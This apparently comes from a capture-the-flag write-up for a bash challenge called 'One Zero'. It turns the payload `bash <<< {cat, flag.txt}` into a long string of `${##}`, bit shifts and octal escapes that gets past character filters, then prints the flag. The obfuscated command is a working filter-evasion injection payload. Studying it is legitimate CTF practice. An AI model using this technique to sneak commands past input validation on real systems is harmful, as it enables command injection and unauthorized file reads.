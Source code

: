 # One Zero

> You only get one zero. ;)

## How to Solve

To solve this you need bash obfuscate method

[Bash Obfuscate Tool](https://gist.github.com/dimasma0305/c3d5d3cac71c8240a491a3010f2372b8)

The original payload is `bash <<< {cat, flag.txt}`

After obfuscate became this 

```${!#} <<< {$\'\\${##}$((${##}<<$((${##}))<<$((${##}))))$((${##}<<$((${##}))^${##}))\\${##}$((${##}<<$((${##}))<<$((${##}))))${##}\\${##}$(($((${##}<<$((${##}))^${##}))<<${##}))$((${##}<<$((${##}))<<$((${##}))))\',$\'\\${##}$((${##}<<$((${##}))<<$((${##}))))$(($((${##}<<$((${##}))^${##}))<<${##}))\\${##}$((${##}<<$((${##}))<<$((${##}))^${##}))$((${##}<<$((${##}))<<$((${##}))))\\${##}$((${##}<<$((${##}))<<$((${##}))))${##}\\${##}$((${##}<<$((${##}))<<$((${##}))))$(($((${##}<<$((${##}))^${##}))<<${##}^${##}))\\$((${##}<<$((${##}))<<$((${##}))^${##}))$(($((${##}<<$((${##}))^${##}))<<${##}))\\${##}$(($((${##}<<$((${##}))^${##}))<<${##}))$((${##}<<$((${##}))<<$((${##}))))\\${##}$(($((${##}<<$((${##}))^${##}))<<${##}^${##}))${#}\\${##}$(($((${##}<<$((${##}))^${##}))<<${##}))$((${##}<<$((${##}))<<$((${##}))))\',}```

![flag](images/flag.png)

```
flag{81b9de37f5bd218c9f59ac2d9d709bf6}
```